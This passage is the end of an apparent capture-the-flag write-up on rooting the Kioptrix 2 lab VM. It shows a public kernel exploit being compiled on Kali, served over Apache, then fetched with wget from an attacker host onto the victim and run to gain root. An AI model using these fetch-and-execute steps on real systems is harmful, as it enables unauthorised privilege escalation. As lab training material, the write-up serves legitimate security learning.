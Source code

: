 After a quick Google search against the Linux Versions I was able to find a Privilege Escalation exploit called [ip\_append_data\_() Ring0](https://www.exploit-db.com/exploits/9542/).

So, let's go ahead and open up a text editor on Kali, copy over the exploit script, save it, and then compile it!

```console
root@kali:~# gedit priv.c
root@kali:~# gcc -o priv priv.c
```

At this point what I will do, is move over the exploit to __/var/www/html__ and start up my apache server. This way I can use [wget](https://www.gnu.org/software/wget/) from the victims machine to download the compiled exploit from my computer.

```console
root@kali:~# mv priv /var/www/htlm
root@kali:~# cd /var/www/html
root@kali:/var/www/html# ls
index.html  priv
root@kali:/var/www# service apache2 start
```

Once we have apache running, let's go back to the victim’s machine, change directory to __/tmp__, download the exploit, give the exploit executable permissions, and then run it!

```console
bash-3.00$ cd /tmp
bash-3.00$ wget http://192.168.1.3/priv
bash-3.00$ ls
priv
bash-3.00$ chmod 755 priv
bash-3.00$ ./priv
sh: no job control on this shell
bash-3.00$  id 
uid=0(root) gid=0(root) groups=48(apache)
bash-3.00$  whoami
root
```

## Closing:
Boom! Kioptrix 2 - rooted! 

As I already have said before in my Kioptrix 1 write-up, each level gets a little harder and more complex. This level covered basic web exploitation via SQL & Command Injection. I suggest you read up and familiarize yourself with some basic Web Exploitation Techniques, as well as Reverse Shells - since we will be using them more often in the upcoming Kioptrix VM's.

Stay tuned for more write-ups, and as always - thanks for reading!
